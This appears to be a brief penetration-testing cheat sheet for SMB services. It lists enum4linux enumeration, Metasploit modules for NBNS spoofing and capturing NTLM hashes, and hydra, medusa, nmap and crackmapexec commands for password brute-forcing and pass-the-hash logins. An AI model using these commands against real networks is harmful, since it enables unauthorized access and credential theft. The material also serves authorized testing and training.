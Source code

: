 A general information gathering can be carried out. Obtain SMB server version, domain name, Nbtstat info, MAC address, operating system, users (querydispinfo and enumdomusers), shared directories, anonymous sharing control, password policy (via rpcclient), groups, members of groups, RID and SID info,… can be done.

```bash
enum4linux -a 10.10.x.x
```

## The SMB service can be started. Thus, by listening to the network, the NTLM/LM password hashes of the users on the network and the encrypted Challenge values can be collected.

```bash
#Metasploit Framework:
auxiliary/server/capture/smb
auxiliary/spoof/nbns/nbns_response
```

## Valid users or passwords that can be logged in can be detected.

```bash
#Nmap Scripts: 
smb-brute –script-args userdb=Usernames.list,passdb=Passwords.list,smblockout=1

#Metasploit Framework: 
auxiliary/scanner/smb/smb_login

hydra -t 2 -L Usernames.list -P Passwords.list -M IPAdresses.list -s TargetPort smb
medusa -t 2 -T 2 -U Usernames.list -P Passwords.list -H IPAdresses.list -n TargetPort -M smbnt
crackmapexec 10.10.x.x/24 -d Domain -u Usernames.list -p Passwords.list
```

## Valid login users or password hashes can be identified.

```bash
#Metasploit Framework: 
auxiliary/scanner/smb/smb_login

hydra -t 2 -L Usernames.list -P Hashes.list -M TargetIPAdresses.list -s TargetPort -m “LocalHash” smb
medusa -t 2 -T 2 -U Usernames.list -P Hashes.list -H TargetIPAdresses.list -n TargetPort -m PASS:HASH -M smbnt
crackmapexec 10.10.x.x/24 -d Domain -u Usernames.list -H Hashes.list
```

## Detailed information collection can be performed using identity information.

```bash
enum4linux -u Domain\\Username -p Password -a 10.10.x.x
```

